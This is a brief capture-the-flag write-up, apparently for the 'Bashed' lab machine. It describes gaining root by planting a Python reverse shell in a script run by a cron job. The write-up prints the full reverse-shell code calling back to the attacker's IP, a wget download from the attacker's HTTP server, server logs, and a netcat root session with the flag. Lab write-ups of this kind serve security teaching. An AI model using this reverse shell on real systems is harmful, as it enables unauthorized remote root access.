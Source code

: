Really easy box so just a short summary of what i learned 

So User.txt was trivial literally was a webshell at /dev and from that we could also switch users to “scriptmanager”

Through this user we could edit scripts so the following POC was made

We could also see that a cronjob was running “test.py” every minute and we could basically put whatever we want in there and have it run so got the following

Let’s now create a new file called **test.py** on our Kali box and add the same reverse shell code shown below that we used previously. We’ll then transfer this to the target “Bashed” machine. You could also do this directly on the “Bashed” shell but transferring it seemed much cleaner, because on the “simple” shell we got(using editors like vi is painful).

```bash
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.125",4445));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

After this we made a http server and got it with wget

```bash
wget http://10.10.14.125:8081/home/sm1gspl0it/test.py
```

```bash
sudo python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.31.221 - - [16/Feb/2025 13:12:51] code 404, message File not found
10.129.31.221 - - [16/Feb/2025 13:12:51] "GET /test.py HTTP/1.1" 404 -
10.129.31.221 - - [16/Feb/2025 13:13:13] code 404, message File not found
10.129.31.221 - - [16/Feb/2025 13:13:13] "GET /test.py HTTP/1.1" 404 -
10.129.31.221 - - [16/Feb/2025 13:13:57] code 404, message File not found
10.129.31.221 - - [16/Feb/2025 13:13:57] "GET /test.py HTTP/1.1" 404 -
10.10.14.125 - - [16/Feb/2025 13:15:52] "GET / HTTP/1.1" 200 -
10.10.14.125 - - [16/Feb/2025 13:15:52] code 404, message File not found
10.10.14.125 - - [16/Feb/2025 13:15:52] "GET /favicon.ico HTTP/1.1" 404 -
10.10.14.125 - - [16/Feb/2025 13:16:12] "GET /home HTTP/1.1" 301 -
10.10.14.125 - - [16/Feb/2025 13:16:12] "GET /home/ HTTP/1.1" 200 -
10.10.14.125 - - [16/Feb/2025 13:16:19] "GET /home/sm1gspl0it/ HTTP/1.1" 200 -
10.129.31.221 - - [16/Feb/2025 13:17:14] "GET /home/sm1gspl0it/test.py HTTP/1.1"
```

It is worth noticing i failed abit here and realised i didnt specify the path so had to go into my browser and find the path

In any case it eventually ran and we got root

```bash
nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.31.221] 51614
/bin/sh: 0: can't access tty; job control turned off

# whoami

root

# cd /root

# ls

root.txt

# cat root.txt

fa209abecf8802ccca6b7ee1ea0524d0

```
